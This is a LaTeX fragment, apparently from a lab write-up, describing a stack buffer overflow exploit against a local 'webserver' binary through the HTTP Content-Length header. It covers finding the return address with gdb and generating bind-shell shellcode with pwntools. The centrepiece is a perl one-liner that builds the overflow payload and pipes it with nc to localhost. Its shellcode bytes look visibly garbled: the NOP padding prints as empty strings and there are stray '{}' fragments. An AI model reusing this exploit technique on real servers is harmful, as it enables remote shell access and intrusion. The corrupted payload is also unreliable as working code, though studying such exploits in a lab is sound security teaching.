 \documentclass[a4paper,11pt,hidelinks]{article}
\begin{document}
It is additionally possible to exploit the vulnerability via injecting shell code in the Content-Length parameter (the path parameter is also vulnerable, although harder to exploit). In order to obtain the necessary parameters for a successful exploitation, I used \verb=gdb= on the \verb=webserver= executable, placing a breakpoint at line \verb=88= in order to learn the address of the \verb=rip= (return instruction pointer) address and gather information about the required number of NOPs. 

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.9\textwidth]{../drawable/info-frame.png}
  \caption{Gathering information with \texttt{gdb}.}
\end{figure}


For the shellcode, I used the Python library \verb=pwntools= to generate a proper \verb=x86_64= Linux shellcode that binds a Dash shell to port \verb=8081=. The obtained script looked like this:

\begin{code}{Code for the exploitation.}
  perl -e 'print "POST \/ HTTP\/1.1\r\nContent-Length: " . ""x500
   . "\x6a\x6a\x5f\x6a\x5e\x0f\xba{}
  \x1e\x6a\x5a
  \x6a\x0f\x6a\xef\x6a\x5e
  \x0f\x6a\x2b\xef{}\x0f\x6a
  \x5e\xff\xce{}\x0b\x6a\xef\x0f\xeb
  \xef\x6a\x2f\x6e\x2f\x2f\x2f
  \x6a
  \x5e\x6a\x3b\x0f" 
  . ""x494 . "\xfb\x5a\xff\x7f" . "\r\n\r\n"'
   | nc -v -v -q 2 localhost 8082
\end{code}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.5\textwidth]{../drawable/buffer-start-nop.png}
  \includegraphics[width=0.5\textwidth]{../drawable/buffer-mid-nop.png}
  \includegraphics[width=0.5\textwidth]{../drawable/buffer-end-nop.png}
  \caption{Inspecting the shellcode with GDB (start of payload, start of shellcode, end of payload)}
\end{figure}
\end{document}
